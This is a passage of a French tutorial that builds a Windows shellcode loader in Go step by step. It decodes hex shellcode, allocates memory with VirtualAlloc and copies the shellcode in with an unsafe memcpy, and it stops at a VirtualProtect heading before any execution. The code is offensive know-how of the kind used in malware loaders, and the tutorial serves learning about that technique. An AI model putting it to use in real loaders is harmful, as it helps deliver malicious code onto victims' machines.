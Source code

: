 ```go
// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```
Notre code ressemble maintenant à ça :
```go
package main  
  
import (  
	"encoding/hex"  
	"fmt"  
	"golang.org/x/sys/windows"  
	"log"  
	"unsafe"  
)  
  
var (  
	kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
	createThread = kernel32.NewProc("CreateThread")  
)  
  
func main() {  
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")  
	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
	)  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}  
	fmt.Printf("Address: %x", shellcodeExec)  
	fmt.Scanln()  
  
	memcpy(shellcodeExec, shellcode)  
	fmt.Scanln()
}

// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```
Comme avant, j'y ai ajouté un `fmt.Scan.ln()` pour servir de breakpoint. Si on le fait tourner et qu'on observer la zone de mémoire précédâmes alloué, on va y voir notre shellcode.
![](img4.png)
### VirtualProtect
